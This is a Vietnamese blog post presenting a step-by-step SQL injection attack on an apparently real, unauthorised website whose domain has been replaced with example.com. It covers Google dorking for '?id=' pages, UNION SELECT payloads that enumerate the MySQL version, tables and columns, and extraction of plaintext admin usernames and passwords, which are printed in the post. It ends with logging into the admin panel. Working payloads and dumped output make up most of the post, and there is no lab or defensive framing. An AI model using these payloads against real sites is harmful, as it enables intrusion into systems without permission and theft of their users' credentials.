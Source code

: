 ```yaml
---
layout: post
title:  "Quy trình tấn công Sql injection"
date:   2016-7-17 18:00:23 +0700
categories: [Security]
comment: true
---
```

SQL injection bản chất là kết thúc câu query đó và chèn thêm query của mình.
Mình sẽ không đi sâu vào khái niệm `SQL injection` là gì. Mọi người có thể tham khảo thêm qua wiki!

Các bước cần thực hiện như sau:

**A. Tìm kiếm Website bị lỗi**

Có rất nhiều cách để tìm ra website bị lỗi này. Mình sữ dụng cú pháp ?id = để tìm ra tất cả web có đuôi là như vậy.
Sau đó thì check lần lưọt từng website thôi. Thử thêm dấu nháy vào cuối url sau đó request. Nếu website thay đổi thì nhiều
khả năng trang này có thể tấn công được vì dữ liệu đầu vào không được xử lý kí tự đặc biệt.

Sử dụng google để search các trang có đuôi là `?id =`

Sau một hồi lục lọi mình tìm đưọc trang này: `http://example.com/useddetails.php?id=43` (Tên website đã đưọc thay thế)

**B. Xác định số cột trong câu lệnh select và lấy version database**

Nếu union đúng số cột thì nó sẽ không hiện lỗi, ta cứ thể thêm số bắt đầu từ 2. Sau đó thay vào số bất kì có hiện trên màn hình là `version()`
để xem version của DB là gì.

http://example.com/useddetails.php?id=43` union select 1,version(),3,4,5,6,7--`

Và Database : `MySQL 5.0.96-log` đã hiện lên màn hình

Với mỗi version có cách khai thác tên bản khác nhau.

**C. Lấy tên bảng trong database.**

Chèn thêm đoạn sau để lấy tên table dựa vào version đã lấy đưọc phía trên.

`http://example.com/useddetails.php?id=null`<br/>
`union select 1,version(),3, group_concat(table_name),5,6,`<br/>
`7 from information_schema.tables where table_schema = database()--`

Tên table xuất hiện trên màn hình như sau.

````
admin_users,tbl_admin,tbl_cart,tbl_client,tbl_company_logo,tbl_countries,
tbl_employer,tbl_equipmnt,tbl_gallery,tbl_jobs,tbl_jobseeker,tbl_m_category,
tbl_news,tbl_partner,tbl_product,tbl_productcategory,tbl_project,tbl_qualification,
tbl_register_cảt,tbl_s_category,tbl_temp_cart
````

**D. Lấy tên cột và giá trị trong cột của bảng user**

Việc tiếp theo là kiểm tra xem table nào chứa tài khoản admin. Ơ đây ta nghi ngờ 2 bảng `admin_users` và `tbl_admin`
Mã hóa tên hai bảng sang kiểu hex và chèn vào phía sau link để lấy tên các column:


`union select 1,version(),3,group_concat(column_name),5,6,7`<br/>
`from information_schema.columns where table_name=0x61646d696e5f7573657273--`

hoặc

`union select 1,version(),3,group_concat(column_name),5,6,7`<br/>
`from information_schema.columns where table_name=0x74626c5f61646d696e--`

Sau đó thử lấy các giá trị trong các cột đó

`union select 1,2,3,group_concat(concat_ws(0x2f,user_name,user_password,user_type)),`
`5,6,7 from admin_users--`

````
HOD,FDW/FDW/STAFF,naziya/0000/ADMIN,nazy/111/STAFF
````

`union select 1,2,3,group_concat(concat_ws(0x2f,username,password,admin_type)),`
`5,6,7 from tbl_admin--`

````
administrator/admin/super admin,staff1/123/staff,parent/par123/parent
````
Vâng, như ta đã thấy, tất cả các mật khẩu đều không đưọc mã hóa. Thật may mắn để thực hiện bước tiếp theo.

**E. Tìm kiếm trang đăng nhập và tiến hành thử đăng nhập**

Đây cũng là một bước cũng đòi hỏi tý may mắn. Việc tìm ra đúng đường dẫn để đăng nhập trang admin cũng là vấn đề nan giải.

Một số công cụ hỗ trợ scan admin url như haijv hoặc các web scan online ...

Sau một hồi lục lọi thì cũng tìm ra đưọc url khá là bất ngờ

[http://example/admin/my_home.php](#)

Sau đó tiến hành đăng nhập và xem thử thế nào. Done!

